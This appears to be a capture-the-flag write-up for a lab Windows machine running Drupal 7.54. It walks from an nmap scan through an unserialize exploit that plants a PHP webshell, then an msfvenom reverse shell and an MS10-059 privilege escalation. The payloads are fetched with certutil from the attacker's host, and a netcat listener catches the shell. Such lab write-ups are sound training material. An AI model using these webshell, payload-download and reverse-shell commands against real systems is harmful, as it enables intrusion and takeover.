









# Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Mon Jul 18 21:08:28 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.079s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   78.77 ms 10.10.14.1
2   78.79 ms 10.10.10.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 18 21:11:24 2022 -- 1 IP address (1 host up) scanned in 177.01 seconds
``` 
</br>

**Initial Shell Vulnerability Exploited:** </br>
Since port 80 was open, I got inside the main page and I could see that it was powered by Drupal: </br>
 </br>
So I ran a drupal scan using [droopescan](https://github.com/SamJoan/droopescan) tool with the command: ```droopescan scan drupal -u 10.10.10.9``` </br>
 </br>
I could see that the drupal version is 7.54 and I found an exploit for that version on [GitHub](https://github.com/PolarisLab/Drupal-Exploit/blob/master/Drupal-Exploit.php). </br>
Before running the exploit, I had to install the PHP-curl package and do some modifications in the exploit
code. </br>
I installed php-curl with this command: ```sudo apt-get install php-curl``` and modified the exploit code: </br>

```bash
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; >
];
```
**$url** - To the machine URL (10.10.10.9) </br>
**$endpoint_path** - was at /rest_endpoint before, but it returned 404 Not found, I tried /rest instead and it worked (returned 200). </br>
**'filename'** - will be the name of the file uploaded to the webserver. </br>
**'data'** - I changed it to a one liner [webshell](https://gist.github.com/sente/4dbb2b7bdda2647ba80b) </br>
I ran the exploit: </br>
 </br>
And the webshell seemed to work fine:
 </br>
### Uploading a Reverse Shell:
I used msfvenom to generate a reverse shell on my Kali: </br>
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4242 -f exe > reverse.exe``` </br>
I then downloaded that on the target machine with certutil, using the webshell: </br>

```bash
10.10.10.9/test.php?cmd=certutil -urlcache -split -f "http://10.10.14.31/reverse.exe" reverse.exe
```

Ran the file while listening to port 4242 on my Kali: </br>
 </br>
**Vulnerability Explanation:** One of the feature of the module is that one can control the input/output format by changing the
Content-Type/Accept headers.
one of the input formats is: application/vnd.php.serialized, which is the type given to PHP-serialized data,
that means that this module is vulnerable to trivial unserialize() vulnerability.
The unserialize function can result in code being loaded and executed. </br> </br>
**Initial Shell Screenshot:** </br>
 </br>
# Privilege Escalation:
I used the [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) tool, and found out the machine was vulnerable to MS10-059. </br>
I found an exploit on [GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059), I downloaded the ```exploit.exe``` file to my Kali machine, </br>
and transferred it to the windows machine, using cerutil (I used the webshell from earlier): </br>
```bash
http://10.10.10.9/test.php?cmd=certutil%20-urlcache%20-split%20-f%20%22http://10.10.14.2/privesc.exe%22%20privesc.exe
``` 

I used netcat to listen to 1235 port on my Kali Linux: ```nc -nlvp 1235``` , and ran the exploit on the windows machine: </br>
```privesc.exe 10.10.14.2 1234``` </br> </br>
 </br>
 </br>

**Vulnerability Explanation:** The Tracing Feature for Services has incorrect ACLs on its registry keys,
which allows local users to gain privileges via vectors involving a named pipe and impersonation, aka
"Tracing Registry Key ACL Vulnerability." </br>
**Proof Of Screenshot:** </br>
 </br>

